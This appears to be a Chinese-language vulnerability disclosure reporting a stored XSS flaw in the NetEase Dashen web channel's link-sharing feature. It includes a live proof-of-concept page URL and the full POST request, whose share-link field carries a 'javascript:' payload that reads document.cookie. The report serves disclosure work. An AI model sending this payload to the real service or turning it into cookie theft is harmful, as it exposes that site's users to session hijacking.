 ## 漏洞名称

> 网易大神Web端频道分享帖子存在存储型XSS漏洞

## 漏洞类型
> web漏洞，存储型XSS

## 危害等级
> 中危

## 漏洞URL
- POST https://inf-im.ds.163.com/v1/web/chat-room-msg/send-msg
- POC网页 https://ds.163.com/channel/0129911649/1111007930/ 打开后点击最新的分享链接，弹出xss弹框
- POC视频链接：链接：https://pan.baidu.com/s/1aOqi-sLgA5XJIw3FUPiTIw 提取码：1314

## 关键数据包

    POST /v1/web/chat-room-msg/send-msg HTTP/1.1
    Host: inf-im.ds.163.com
    Connection: close
    Content-Length: 586
    GL-CheckSum: 20c428fbe325f20d1ff139943dafd2334814804e_28aebbff3e33281f4afe3ebcf0b19ae90ba97998
    sec-ch-ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
    sec-ch-ua-mobile: ?0
    GL-Uid: xxxxxxx
    GL-DeviceId: 1189888043.1694780319
    Content-Type: application/json;charset=UTF-8
    Accept: application/json, text/plain, */*
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
    GL-ClientType: 61
    GL-Nonce: xxxx
    GL-X-XSRF-TOKEN: xxxxx
    sec-ch-ua-platform: "Windows"
    Origin: https://ds.163.com
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://ds.163.com/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
    Cookie: xxx

    { "serverId": "0149881871", "channelId": "1459515", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": { "attachType": "link", "attachData": { "title": "p", "url": "javascript://%0avar a=\"163.com\";alert(document.cookie);", "desc": "o", "icon": "https://baidu.com/p.png" } }, "contentType": "SHARE" }

